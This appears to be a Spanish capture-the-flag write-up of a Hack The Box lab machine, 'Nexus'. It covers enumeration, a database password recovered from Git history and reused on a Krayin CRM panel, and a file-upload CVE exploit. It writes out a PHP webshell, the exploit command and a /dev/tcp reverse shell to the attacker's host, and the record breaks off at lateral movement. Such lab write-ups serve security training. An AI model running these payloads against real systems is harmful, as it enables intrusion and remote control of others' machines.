HTB | Nexus
Machine - Nexus OS - Linux Difficulty - Easy IP - 10.129.175.212 Fecha - 19/10/2026

1. Enumeración (Reconnaissance)
Escaneo de Puertos (Nmap)
Comenzamos la fase de reconocimiento lanzando un escaneo completo sobre la máquina. Escaneamos todos los puertos (-p-), detectamos servicios y versiones junto a los scripts por defecto (-sCV) y aceleramos el proceso enviando al menos 5000 paquetes por segundo (--min-rate=5000):
sudo nmap -sCV -p- --min-rate=5000 -oN nmap.txt 10.129.175.212
Starting Nmap 7.992 ( https://nmap.org ) at 2026-10-19 19:44 +0000
Nmap scan report for 10.129.175.212
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_ 256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.97 seconds
El escaneo nos deja únicamente dos puertos abiertos:
- 22 (SSH): OpenSSH 9.6p1 sobre Ubuntu. Lo reservamos para cuando dispongamos de credenciales válidas.
- 80 (HTTP): Un servidor nginx 1.24.0 que intenta redirigir al dominio
nexus.htb. Deberemos añadir este dominio a nuestro/etc/hostspara que la resolución funcione.
Añadimos el dominio a nuestro archivo de resolución:
sudo vim /etc/hosts
# Añadimos la línea: 10.129.175.212 nexus.htb
Enumeración Web (Puerto 80)

Al acceder a http://nexus.htb nos encontramos con el portal de Nexus Energy Authority, una supuesta agencia gubernamental del sector energético. Es una web corporativa estática con secciones sobre sus programas, el mix energético nacional, noticias y un apartado de empleo.
Dos zonas llaman la atención desde el punto de vista de la enumeración:
- La sección de reseñas (testimonials), que expone nombres de personas (Katharina Meier, Thomas Patel, Dr. Sara Fernandez). Los anotamos, ya que podrían convertirse en nombres de usuario del sistema.

- El apartado Careers → "Join our team". Al pulsar el botón View role se despliega un modal con la oferta de empleo y, al final del mismo, una sección "Ready to apply" que filtra dos direcciones de correo:

Ready to apply?
Send your CV and a short cover note with the subject line "Operations Specialist – Customer Platforms".
Apply at careers@nexus.htb
Questions? Reach out to our hiring manager: j.matthew@nexus.htb
El dato más interesante es el correo del hiring manager: j.matthew@nexus.htb. El formato j.matthew encaja con un nombre de usuario típico del sistema (inicial del nombre + apellido), así que lo guardamos como posible usuario de cara a futuros accesos.
Para identificar el stack tecnológico nos apoyamos en Wappalyzer:

Web servers: Nginx 1.24.0
Reverse proxies: Nginx 1.24.0
Operating systems: Ubuntu
Font scripts: Google Font API
No aporta nada que no supiéramos ya por nmap: nginx haciendo también de proxy inverso sobre Ubuntu. Ese detalle del reverse proxy es relevante: sugiere que por detrás puede haber más aplicaciones servidas bajo distintos virtual hosts.
Enumeración de Directorios
Como la web principal no ofrece funcionalidad interactiva, lanzamos un fuzzing de directorios con dirsearch para descartar paneles ocultos:
dirsearch -u http://nexus.htb/
_|. _ _ _ _ _ _|_ v0.5.0
(_||| _) (/_(_|| (_| )
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12295
Target: http://nexus.htb/
[19:49:25] Scanning:
[19:49:44] 200 - 48KB - /index.html
Task Completed
El resultado es limpio: solo el index.html. Esto refuerza la idea de que el vector de entrada no está en el sitio principal, sino en otra aplicación servida por el proxy.
Enumeración de Subdominios (VHOSTS)
Dado que nginx actúa como reverse proxy, realizamos un descubrimiento de virtual hosts con gobuster. En entornos corporativos es habitual que un mismo servidor aloje varias aplicaciones bajo distintos subdominios:
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://nexus.htb/ --append-domain
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://nexus.htb/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] Append Domain: true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
git.nexus.htb Status: 200 [Size: 14474]
billing.nexus.htb Status: 302 [Size: 390] [--> http://billing.nexus.htb/admin/login]
Aquí sí aparece información jugosa. Descubrimos dos subdominios nuevos:
git.nexus.htb→ responde con un200 OK. El nombre sugiere algún tipo de servicio de alojamiento de repositorios Git (Gitea, GitLab…).billing.nexus.htb→ responde con un302que redirige a/admin/login, lo que delata un panel de administración de alguna aplicación de facturación.
Añadimos ambos subdominios a nuestro /etc/hosts:
sudo vim /etc/hosts
# 10.129.175.212 nexus.htb git.nexus.htb billing.nexus.htb
Con dos nuevas superficies de ataque identificadas, el siguiente paso es enumerarlas en detalle para encontrar nuestro punto de entrada.
Enumeración de git.nexus.htb (Gitea)

Al acceder a http://git.nexus.htb nos recibe una instancia de Gitea, un servicio de alojamiento de repositorios Git autoalojado. Nos ofrece el formulario de inicio de sesión (que admite tanto nombre de usuario como correo), pero de momento no disponemos de credenciales válidas.
Wappalyzer confirma la tecnología por detrás:
Web servers: Nginx 1.24.0
Programming languages: Go
Operating systems: Ubuntu
Miscellaneous: Open Graph, PWA
El dato más importante lo encontramos en el pie de página del sitio, que nos revela la versión exacta:
Powered by Gitea · Version: 1.26.0

Anotamos la versión Gitea 1.26.0 por si resultara vulnerable a algún CVE conocido, y la dejamos aparcada de momento para revisar antes el panel de facturación. Más adelante volveremos sobre ella para enumerar los repositorios públicos.
Enumeración de billing.nexus.htb (Krayin CRM)

El subdominio billing.nexus.htb nos redirige a /admin/login, un panel de inicio de sesión. El pie de página delata el software que corre por detrás:
Powered by Krayin, an open-source project by Webkul.
Se trata de Krayin CRM, un CRM open-source desarrollado por Webkul sobre el framework Laravel. Como de costumbre, no tenemos credenciales para autenticarnos directamente.
Sin embargo, al revisar la parte inferior de la página detectamos algo que no debería estar ahí: una barra de depuración (PHPDebugBar) completamente funcional, que nos deja inspeccionar peticiones, mensajes, vistas, queries SQL, etc.

Esto es un hallazgo crítico. Analizando el código fuente de la página encontramos, embebida en el JavaScript del DebugBar, la configuración interna de la aplicación:
"laravel": {
"version": "12.x",
"tooltip": {
"Laravel Version": "12.54.1",
"PHP Version": "8.3.6",
"Environment": "local",
"Debug Mode": "Enabled",
"URL": "billing.nexus.htb",
"Timezone": "Asia/Kolkata",
"Locale": "en"
}
}
Dos banderas rojas enormes:
"Environment": "local"→ la aplicación se ejecuta en modo de desarrollo, no en producción."Debug Mode": "Enabled"→ el modo debug de Laravel está activo de cara al exterior.
Dejar el modo debug de Laravel activo en una aplicación accesible públicamente es una mala práctica de seguridad grave. Expone trazas de error detalladas y, en este caso, habilita el PHPDebugBar, que además mantiene un almacén de las peticiones que la aplicación va procesando. En la propia página ya vemos cómo filtra información sensible como los tokens de sesión y CSRF:
request_cookies
"XSRF-TOKEN" => "5mru0GIH4NW4dG5ZOjDazxRJw0ujlA0UJv05zISS"
"krayin_crm_session" => "0XfbdIiIq2jdXxD33NawMlv0dQWx9q3tZXyt7kip"
En teoría, el DebugBar puede guardar el contenido completo de cada petición (incluidos los cuerpos POST) en un almacén accesible a través del endpoint /_debugbar/open. Si estuviera habilitado y algún usuario iniciara sesión en el CRM, su petición de login —con el email y la contraseña en texto plano— quedaría registrada y podríamos recuperarla. Lo comprobamos:
curl -s "http://billing.nexus.htb/_debugbar/open" | jq .
[
{
"datetime": "2026-10-21 00:03:10",
"id": null,
"ip": "<TU_IP>",
"method": "ERROR",
"uri": "!! To enable public access to previous requests, set debugbar.storage.open to true in your config, or enable DEBUGBAR_OPEN_STORAGE if you did not publish the config. !!",
"utime": 1792521190.764237
}
]
El propio endpoint nos responde que el acceso público al almacén de peticiones anteriores está deshabilitado (debugbar.storage.open = false). Por tanto, aunque el modo debug esté activo, no podemos listar ni volcar peticiones antiguas, y esta vía de cosecha de credenciales queda cerrada.
Con el panel de facturación bloqueado por credenciales, retomamos el servicio que habíamos dejado aparcado: Gitea.
Enumeración de repositorios en Gitea
Gitea permite la navegación anónima de todo el contenido marcado como público. En lugar de ir a ciegas por la interfaz web, consultamos directamente su API REST, que no requiere autenticación para listar repositorios y usuarios públicos:
curl -s "http://git.nexus.htb/api/v1/repos/search?limit=50" | jq -r '.data[].full_name'
admin/krayin-docker-setup
curl -s "http://git.nexus.htb/api/v1/users/search?limit=50" | jq -r '.data[].login'
admin
jones
La API nos devuelve dos piezas de información muy valiosas:
- Un repositorio público,
admin/krayin-docker-setup, que por su nombre contiene el entorno de despliegue (Docker) del CRM de facturación. Este tipo de repositorios suele incluir ficherosdocker-compose.ymly.envcon credenciales de base de datos, elAPP_KEYde Laravel e incluso las credenciales por defecto del administrador. - Dos usuarios:
adminyjones. El segundo,jones, no lo habíamos visto antes; lo anotamos como posible usuario del sistema de cara a un acceso por SSH o a la reutilización de contraseñas.
Clonamos el repositorio para inspeccionarlo en local:
git clone http://git.nexus.htb/admin/krayin-docker-setup.git
Fuga de credenciales en el historial de Git
El repositorio contiene un .env y un docker-compose.yml, pero al revisarlos vemos que están "sanitizados": los campos sensibles (APP_KEY, DB_PASSWORD…) aparecen vacíos.
cat .env
APP_KEY=
APP_DEBUG=true
APP_URL=http://billing.nexus.htb
...
DB_CONNECTION=mysql
DB_HOST=krayin-mysql
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=
...
Sin embargo, al clonar el repositorio observamos que arrastra historial (Total 8, delta 1). Un patrón habitual es que un desarrollador suba por error un fichero con secretos y lo "limpie" en un commit posterior, olvidando que Git conserva todo el historial. Listamos los commits:
git log --oneline --all
9b817fa (HEAD -> main, origin/main, origin/HEAD) Upload files to "/"
1615c46 Upload files to "/"
Hay dos commits. Revisamos las diferencias de todo el historial filtrando por términos sensibles:
git log -p --all | grep -iE 'APP_KEY|PASSWORD|secret|@nexus|ROOT'
Author: admin <admin@nexus.htb>
APP_KEY=
-DB_PASSWORD=N27xh!!2ucY04
+DB_PASSWORD=
Author: admin <admin@nexus.htb>
+APP_KEY=
+DB_PASSWORD=N27xh!!2ucY04
...
Aquí está el fallo. El primer commit (1615c46) subió el .env con la contraseña de base de datos en claro, y el segundo commit (9b817fa) la eliminó. Pero esa contraseña sigue perfectamente accesible en el historial:
DB_PASSWORD=N27xh!!2ucY04
Además, el autor de los commits es admin@nexus.htb, lo que nos da un correo válido asociado al administrador. En entornos reales (y especialmente en estas máquinas) es muy común la reutilización de contraseñas, así que probaremos esta credencial contra el panel de Krayin, Gitea y SSH.
| Campo | Valor |
|---|---|
| Contraseña | N27xh!!2ucY04 |
| Correo (admin) | admin@nexus.htb |
| Usuarios candidatos | admin, jones, j.matthew |
2. Acceso Inicial (Foothold)
Acceso al panel de Krayin (reutilización de credenciales)
Probamos la contraseña filtrada contra el panel de administración de Krayin. Tras varios intentos con los distintos correos candidatos, la combinación que funciona es la del hiring manager que habíamos anotado en la enumeración web:
Usuario: j.matthew@nexus.htb
Contraseña: N27xh!!2ucY04
Iniciamos sesión correctamente y accedemos al /admin/dashboard del CRM:

Nota: la contraseña, que en el repositorio aparecía como
DB_PASSWORD, estaba siendo reutilizada como contraseña de la cuenta de usuario del CRM. Es el clásico ejemplo de por qué nunca se deben reutilizar credenciales entre servicios.
Haciendo clic sobre nuestro usuario (esquina superior derecha) vemos la versión exacta de la aplicación:

Version: 2.2.0
CVE-2026-38526 — Subida de ficheros arbitraria autenticada (RCE)
Una búsqueda de vulnerabilidades para Krayin CRM 2.2.x nos lleva a CVE-2026-38526, un fallo crítico (CVSS 9.9) de subida de ficheros arbitraria autenticada que deriva en ejecución remota de código (RCE). Existe PoC pública en Exploit-DB (ID 52629).
El flujo técnico de la vulnerabilidad es el siguiente:
- El endpoint vulnerable: Krayin integra el editor de texto enriquecido TinyMCE, que expone un endpoint de subida de imágenes en
POST /admin/tinymce/upload. Está pensado para que un usuario autenticado suba imágenes a sus leads, notas, correos, etc. - Validación insuficiente (CWE-434): el endpoint no valida correctamente el tipo de fichero y, lo más grave, conserva la extensión original del archivo subido al guardarlo en el servidor.
- Ejecución: como el fichero se almacena en una ruta servida por el servidor web (bajo
storage/), podemos subir un.phpcon nuestro código y, al visitar su URL, el intérprete de PHP lo ejecutará con los privilegios del servicio web.
Fuentes:
- Exploit-DB 52629 — Krayin CRM v2.2.x Authenticated RCE
- CVE-2026-38526 — OpenCVE
- SOCRadar — CVE-2026-38526 Krayin CRM RCE
Dado que ya disponemos de una sesión válida en el panel, cumplimos el único requisito del exploit (estar autenticados), por lo que podemos abusar de este endpoint para conseguir nuestro punto de entrada en la máquina.
Explotación: de la subida al RCE
Descargamos el PoC desde Exploit-DB y lo analizamos:
searchsploit -m 52629
El script es sencillo: hace login con nuestras credenciales, recupera el token XSRF-TOKEN de la cookie de sesión, y sube el fichero que le indiquemos al endpoint /admin/tinymce/upload, devolviéndonos la URL final del archivo. Importante: el exploit únicamente sube el fichero; la ejecución la provocaremos nosotros visitando su URL.
Creamos un webshell mínimo en PHP que ejecute comandos recibidos por el parámetro cmd:
echo '<?php system($_GET["cmd"]); ?>' > shell.php
Y lanzamos el exploit (ojo con los flags: -t es la URL, -u el usuario, -p la contraseña y -f el fichero):
python3 52629.py -t http://billing.nexus.htb -u j.matthew@nexus.htb -p 'N27xh!!2ucY04' -f shell.php
[+] File uploaded successfully.
Path to file: http://billing.nexus.htb/storage/tinymce/829abd99c7cf1a4020f95b02ec7f3668.php
El fichero se ha guardado conservando su extensión .php en una ruta pública. Comprobamos que efectivamente tenemos ejecución remota de comandos pasándole cmd=id:
curl "http://billing.nexus.htb/storage/tinymce/829abd99c7cf1a4020f95b02ec7f3668.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Reverse Shell
Con el RCE confirmado, lanzamos una reverse shell. Dejamos un listener a la escucha en nuestra máquina (en este caso usamos penelope, por comodidad con el upgrade automático a PTY) y disparamos la conexión.
Como nuestro webshell lee el comando desde $_GET, forzamos que curl envíe el parámetro por la query string con el flag -G (de lo contrario lo mandaría en el cuerpo POST y $_GET no lo recibiría):
curl -G "http://billing.nexus.htb/storage/tinymce/829abd99c7cf1a4020f95b02ec7f3668.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<TU_IP>/4444 0>&1'"
En nuestro listener recibimos la conexión como www-data, con la shell ya estabilizada a PTY:
[+] Got reverse shell from nexus~10.129.176.242-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
www-data@nexus:~/krayin/storage/app/public/tinymce$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Ya tenemos un punto de apoyo dentro de la máquina. El siguiente paso es enumerar el sistema para movernos hacia un usuario con mayores privilegios.
3. Movimiento Lateral (Pivotando a jones)
Enumeración como www-data
Como www-data no es un usuario interactivo, nuestro objetivo es movernos a un usuario real. Listamos los usuarios con directorio personal:
ls -la /home
drwxr-x--- 2 git git 4096 May 12 12:27 git
drwxr-x--- 3 jones jones 4096 May 12 12:26 jones
